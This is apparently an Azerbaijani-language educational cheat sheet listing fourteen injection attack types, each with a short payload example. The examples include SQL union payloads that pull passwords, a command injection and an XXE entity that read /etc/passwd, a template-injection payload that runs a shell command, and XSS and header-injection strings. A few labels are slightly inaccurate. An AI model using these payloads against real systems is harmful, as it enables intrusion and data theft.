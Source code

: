 # Bütün Injection Tipləri

## 1. SQL Injection (SQLi)
SQL Injection, istifadəçinin daxil etdiyi məlumatın SQL sorğusunda icra olunmasına səbəb olur.

### 1.1. Classic SQL Injection
Düzgün sanitizasiya olunmamış istifadəçi girişi ilə SQL sorğusunun manipulyasiyası.
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1';
```

### 1.2. Blind SQL Injection
Sayt səhv mesajı qaytarmasa da, sorğunun nəticəsindən asılı olaraq fərqli cavablar qaytarır.
- **Boolean-based:**
```sql
' OR 1=1 --
```
- **Time-based:**
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 1.3. Error-based SQL Injection
SQL səhvlərindən istifadə edərək məlumat çıxarmaq.
```sql
' UNION SELECT 1, database(), user(); --
```

### 1.4. Union-based SQL Injection
`UNION` ifadəsi vasitəsilə başqa bir sorğu nəticəsini birləşdirmək.
```sql
' UNION SELECT null, username, password FROM users --
```

### 1.5. Out-of-band SQL Injection
Daxili sorğularla məlumatın xarici serverə göndərilməsi.
```sql
' UNION SELECT LOAD_FILE('/etc/passwd') --
```

## 2. NoSQL Injection
SQL olmayan verilənlər bazalarında hücum etmək üçün istifadə edilir.
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

## 3. Command Injection
Sistemdə əmrlər icra etməyə imkan verir.
```sh
; cat /etc/passwd
```

## 4. LDAP Injection
LDAP sorğularını manipulyasiya edərək istifadəçi identifikasiyasını keçmək.
```ldap
*)(uid=*))(|(uid=*
```

## 5. XPath Injection
XML verilənlər bazasında axtarış sistemlərini aldadaraq giriş əldə etmək.
```xpath
/users/user[username/text()='admin' and password/text()='1234']
```

## 6. XSS (Cross-Site Scripting)
JavaScript kodunun icra edilməsinə səbəb olur.

### 6.1. Stored XSS
```html
<script>alert('Hacked');</script>
```

### 6.2. Reflected XSS
```html
<input type="text" value="<script>alert('XSS');</script>">
```

### 6.3. DOM-based XSS
```javascript
var evil = document.location.hash.substr(1);
document.write(evil);
```

## 7. HTML Injection
HTML strukturunu manipulyasiya edərək səhifənin tərkibini dəyişmək.
```html
<img src=x onerror=alert('Hacked')>
```

## 8. CRLF Injection
HTTP başlıqlarını dəyişmək üçün istifadə olunur.
```http
GET / HTTP/1.1\r\nSet-Cookie: admin=true
```

## 9. Email Header Injection (SMTP injection)
E-poçt başlıqlarını manipulyasiya edərək phishing hücumları etmək.
```txt
To: victim@example.com\r\nCC: attacker@example.com
```

## 10. Host Header Injection
Serverin `Host` başlığını dəyişərək zərərli URL-ləri yönləndirmək.
```http
Host: evil.com
```

## 11. XML Injection
XML sənədlərini manipulyasiya edərək məlumat oğurlamaq və ya sistemə müdaxilə etmək.
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

## 12. Template Injection
Şablon mühərriklərini manipulyasiya edərək kod icra etmək.
```jinja2
{{ self.__class__.__mro__[1].__subclasses__()[408]('id', shell=True).communicate() }}
```

## 13. Serialization Injection
Deserialization zamanı icra edilən kodları manipulyasiya etmək.
```php
O:4:"Test":1:{s:4:"data";s:5:"hacked";}
```

## 14. GraphQL Injection
GraphQL API-lərinə hücum edərək həssas məlumatları aşkar etmək.
```graphql
query { __schema { types { name } } }
```

